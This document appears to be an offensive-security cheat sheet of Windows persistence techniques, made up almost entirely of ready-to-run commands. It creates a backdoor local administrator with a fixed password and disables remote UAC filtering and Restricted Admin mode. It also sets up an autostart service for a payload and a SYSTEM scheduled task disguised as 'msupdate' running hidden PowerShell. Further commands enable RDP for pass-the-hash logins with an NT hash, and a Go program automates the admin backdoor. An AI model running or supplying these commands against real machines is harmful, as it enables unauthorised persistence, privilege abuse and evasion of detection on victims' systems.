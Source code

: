 # Windows

### Create new user

```powershell
net user mylocaladmin p@ssw0rd! /add /expires:never
net localgroup administrators mylocaladmin /add
```

Create user **mylocaladmin** with password **p@ssw0rd!** and add it to **administrators** group.



Change registry settings to allow local administrator accounts to perform administrative tasks remotely without restrictions

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```



### Create service

_Make a service, with autostart. Before need prepare special payload, that is a service binary._&#x20;

```
sc.exe create "monitexp" binPath= "C:\PathToServiceBinary" type= own start= auto
```

_Then start service_

```
Start-Service -Name "monitexp"
```

### Scheduled task

#### schtasks.exe

_Task create:_

```
schtasks /create /tn msupdate /tr "powershell -w h calc.exe" /sc MINUTE /mo 5 /f /ru SYSTEM
```

Task info

```
schtasks /query /tn msupdate /v /fo list
```

Force the task to start_:_

```
schtasks /run /tn msupdate /i
```

_Delete task:_

```
schtasks /delete /tn msupdate /f
```



### Provide RDP access

#### Turn on RDP

```powershell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

#### Bypass Restricted Admin Mode&#x20;

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Connect

```powershell
xfreerdp /v:172.16.222.254 /u:username /pth:<NT_HASH> /dynamic-resolution +clipboard
```

### Go based binary to create local admin

```go
package main

import (
	"fmt"
	"log"
	"os/exec"
)

func main() {
	addUserCmd := "net user mylocaladmin p@ssw0rd! /add /expires:never"
	addToAdminGroupCmd := "net localgroup administrators mylocaladmin /add"

	err := executeCommand(addUserCmd)
	if err != nil {
		log.Fatal(err)
	}

	err = executeCommand(addToAdminGroupCmd)
	if err != nil {
		log.Fatal(err)
	}

}

func executeCommand(command string) error {
	cmd := exec.Command("cmd", "/C", command)

	output, err := cmd.CombinedOutput()
	if err != nil {
		return fmt.Errorf("err: %s\noutput : %s", err, output)
	}
	return nil
}

```
